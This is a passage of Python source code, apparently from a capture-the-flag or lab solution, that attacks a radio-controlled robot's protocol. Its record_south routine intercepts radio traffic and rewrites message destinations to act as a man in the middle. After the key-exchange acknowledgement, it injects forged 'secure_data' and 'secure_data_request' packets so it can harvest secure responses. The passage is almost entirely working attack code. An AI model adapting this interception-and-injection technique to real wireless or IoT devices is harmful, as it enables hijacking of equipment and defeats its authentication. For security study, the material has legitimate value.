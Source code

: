 ```python
                    
                    # this peforms the rest of the offset
                    await asyncio.sleep(0.02)
                    await offset(0, n, 'east')
                    
                    stop = True
                    break

            if stop:
                break 
        
        # await bogus_response()
        stop_robot()
        time.sleep(1.5)
            
# Record responses for [south]
async def record_south():
    global secure_responses
    global BOUND
    
    for n in range(2, BOUND, 2):
        time.sleep(1.5)
        start_robot()
        
        proxying = True
            
        while True:
            messages = receive_radio_messages()
            stop = False
            for msg in messages:  
                if proxying and msg['dst'] == ME:
                    msg['dst'] = CONTROLLER     
                    print_pkt(msg)
                    inject_radio_message(msg)
                elif msg['dst'] == ROBOT:
                    print_pkt(msg)
                    
                # We drop all messages from the robot. This is just used as a anchor point so we know that it has validated properly
                if msg['msg_type'] == 'ack_key_exchange' and msg['dst'] == ROBOT:
                    proxying = False
                
                    # secure_data -> secure_data_request offsets the movement to south
                    await asyncio.sleep(0.02)
                    await inject_packet('secure_data', 0, CONTROLLER, None)
                    await asyncio.sleep(0.02)
                    await inject_packet('secure_data_request', 1, CONTROLLER, None)
                    
                    # this peforms the rest of the offset
                    await asyncio.sleep(0.02)
                    await offset(2, n, 'south')
                    
                    stop = True
                    break

            if stop:
                break 
        
        # await bogus_response()
        stop_robot()
        time.sleep(1.5)

# Record responses for [west]
```